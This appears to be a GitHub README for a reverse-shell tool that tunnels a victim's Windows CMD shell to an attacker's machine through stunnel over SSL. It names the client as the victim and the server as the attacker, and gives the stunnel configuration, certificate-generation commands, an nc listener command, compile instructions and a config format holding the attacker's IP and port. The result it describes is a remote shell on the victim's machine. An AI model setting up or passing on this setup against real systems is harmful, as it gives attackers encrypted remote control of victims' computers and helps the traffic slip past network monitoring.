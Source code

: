 # STunnell_RevShell
A Reverse shell through Stunnel.
## Architecture
- Client Net4.8 C#
- Server Stunnell4

## Scenario:
Client is the victim, that executes the connection to the server (attacker) that serves stunnell.
The client SSL authentication must match the CN specified creating the server certificate (example: lguerra.local)

    sslStream.AuthenticateAsClient("lguerra.local");
	
	
Server is the attacker running stunnel4. Follows the configuration:
	
	cat /etc/stunnel/stunnel.conf 
	[nc]
	client = no
	accept = 9999
	connect = 127.0.0.1:6666
	cert = /etc/stunnel/lguerra.pem
	
	
Here we have stunnel listening for incoming connection on port 9999, then forwards the connection to port 6666 where we will have nc listening.

## Create the certificate on the server
	
	openssl genrsa -out key.pem 2048
	openssl req -new -x509 -key key.pem -out cert.pem -days 1095
	cat key.pem cert.pem > /etc/stunnel/stunnel.pem
 
The CN value must be used to authenticate the client as previously indicated.
Start stunnell
	
 service stunnel4 start
	
Check if works:

    netstat -tulp | grep 9999
	  Active Internet connections (only servers)
	  Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
	  tcp        0      0 0.0.0.0:9999            0.0.0.0:*               LISTEN      19338/stunnel4
	  ...
	
Then we can lunch nc to listen on port 6666 as configurated on stunnel

	nc -lvp 6666
	
## Compile the client:
Youn can compile the client as follows:

	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe Program.cs
	
The configuration file (config) must be present in the same directory of the executable file and must contain the following information:

		ip:<attacker machine IP>
		port:<listen stunnel port on the attacker machine>
		CN:<CN name as set on the stunnel certificate> 

	
Executing Program.exe we should read the following on the shell
	
		Starting decoding, please wait...
		Certificate revocation list checked: False
		...
The you shoud get a CMD shell on the attacker
	
		

